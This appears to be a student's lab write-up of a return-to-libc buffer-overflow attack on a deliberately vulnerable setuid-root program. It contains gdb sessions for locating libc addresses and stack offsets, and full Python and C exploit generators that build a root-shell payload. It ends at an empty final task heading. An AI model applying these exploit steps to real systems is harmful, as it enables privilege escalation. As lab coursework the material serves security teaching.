

# Task 1

Use the default `BUF_SIZE` as 12

```shell
gcc -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib
sudo chmod 4755 retlib
```

# Task 2

```shell
[02/27/20]seed@VM:~/.../return_to_lic$ touch badfile
[02/27/20]seed@VM:~/.../return_to_lic$ gdb -q retlib
Reading symbols from retlib...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib 
Returned Properly
[Inferior 1 (process 3038) exited with code 01]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e42da0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
gdb-peda$ quit
```

# Task 3

Write a `envaddr.c`
```c
#include <stdio.h>
#include <stdlib.h>

void main()
{
    char *shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```

**Keep the name of the executable program with length 6 (=len(`'retlib'`))**

```shell
gcc envaddr.c -o env666
```

The address of `/bin/sh` is `0xbffffdef`.

**Note**: Don't use `gdb` to get the address of string `/bin/sh` in `libc`. Beacause `gbd` will inject something to the stack and heap for debugging, so the address probably become different in runtime.

# Task 4

Find the offset:

```shell
$ gcc -fno-stack-protector -z noexecstack -g -o retlib_dbg retlib.c
$ gdb -q retlib_dbg
Reading symbols from retlib_dbg...done.
gdb-peda$ b bof
Breakpoint 1 at 0x80484f1: file retlib.c, line 19.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib_dbg 
...
Breakpoint 1, bof (badfile=0x804fa88) at retlib.c:19
19	    fread(buffer, sizeof(char), 300, badfile);
gdb-peda$ p $ebp
$1 = (void *) 0xbfffecb8
gdb-peda$ p &buffer
$2 = (char (*)[12]) 0xbfffeca4
gdb-peda$ p/d 0xbfffecb8 - 0xbfffeca4
$3 = 20
gdb-peda$ quit
```

So, the distance between `%ebp` and `&buffer` inside the function `bof` is 20 bytes

- The range to store the address of `system` is: `content[24:28]`
- The range to store the address of `exit` is: `content[28:32]`
- The range to store the address of `\bin\sh` is: `content[32:36]`

Compose `exploit.py` as follows:

```py
#!/usr/bin/python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(40)) #**Note**: it must be modified there. the origin length of     `content` is 300, which may cause `retlib` return directly without launching a root shell. Please change the length to a smaller int.

X = 32
sh_addr = 0xbffffdef      # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')

Y = 24
system_addr = 0xb7e42da0  # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

Z = 28
exit_addr = 0xb7e369d0  # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

**Note**: in the line 5, the length of `content` should be set to a smaller number instead of 300 both in the templete and source code offered by the official site.

Or use the C version `exploit.c`:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;

    badfile = fopen("./badfile", "w");

    /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
    *(long *)&buf[32] = 0xbffffdef; //  "/bin/sh"
    *(long *)&buf[24] = 0xb7e42da0; //  system()
    *(long *)&buf[28] = 0xb7e369d0; //  exit()

    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}
```

Finally I got



## Attack variation 1

The root shell can also be launched. But when exiting the shell, the `retlib` can not be terminated properly. It issues a `Segmentation fault` error.

## Attack variation 2

```shell
mv retlib newretlib
./newretlib
zsh:1: command not found: h
Segmentation fault
```

Before environment variables are pushed into the stack, the program's name is pushed in first. So the location of `/bin/sh` will shift if the length of program's name changes.

# Task 4

It failed. 

`X`,`Y` and `Z` are determined by the relative distance to `ebp`, which is not influenced by the address randomization.

But the address of `system`,`exit`, and `/bin/sh` are updated.

```shell
./env666
/bin/sh is in bfa0cdef
rm badfile
touch badfile
gdb -q retlib
gdb-peda$ set disable-randomization on
gdb-peda$ r
Starting program: /home/seed/Documents/return-to-libc/retlib 
Returned Properly
[Inferior 1 (process 6081) exited with code 01]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7616da0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb760a9d0 <__GI_exit>
gdb-peda$ quit
```

# Task 5

